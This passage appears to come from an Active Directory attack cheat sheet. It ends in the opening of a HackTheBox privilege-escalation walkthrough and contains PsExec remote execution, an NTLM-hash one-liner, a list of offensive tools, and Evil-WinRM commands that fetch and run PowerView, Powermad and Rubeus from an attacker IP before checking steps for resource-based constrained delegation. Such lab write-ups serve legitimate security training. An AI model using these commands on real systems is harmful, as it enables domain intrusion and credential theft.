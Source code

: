 Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
```shell
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```
## Misc
To get NTLM from password:
```python
python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'
```

## Tools
* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [Mimikatz](https://github.com/gentilkiwi/mimikatz)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [Rubeus](https://github.com/Zer1t0/Rubeus) with brute module
* [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
* [kerbrute.py](https://github.com/TarlogicSecurity/kerbrute)
* [tickey](https://github.com/TarlogicSecurity/tickey)
* [ticket_converter.py](https://github.com/Zer1t0/ticket_converter)

# Local Privilege Escalation (Example)
We are going to abuse resource-based constrained delegation. So, we need to upload 2 scripts (`PowerView.ps1` and `Powermad.ps1`) and `Rubeus.exe` to the victim machine:

```bash
*Evil-WinRM* PS C:\Users\support\Documents> IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.13/PowerView.ps1')
*Evil-WinRM* PS C:\Users\support\Documents> IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.13/Powermad.ps1')
*Evil-WinRM* PS C:\Users\support\Documents> (New-Object Net.WebClient).DownloadFile("http://10.10.14.13/Rubeus.exe","C:\windows\tasks\Rubeus.exe")
```

1. Verify that users have the access to add machines to domain or not
```bash
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainObject -Identity "DC=SUPPORT,DC=HTB" | select ms-ds-machineaccountquota

ms-ds-machineaccountquota
-------------------------
                     10
```

- The execute command above results that the quote is set to default `10`.

2. We need to make sure that the DC environment version is 2012+ (here we have `Windows Server 2022 Standard`)
```bash
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainController | select name,osversion | fl


Name      : dc.support.htb
OSVersion : Windows Server 2022 Standard
```

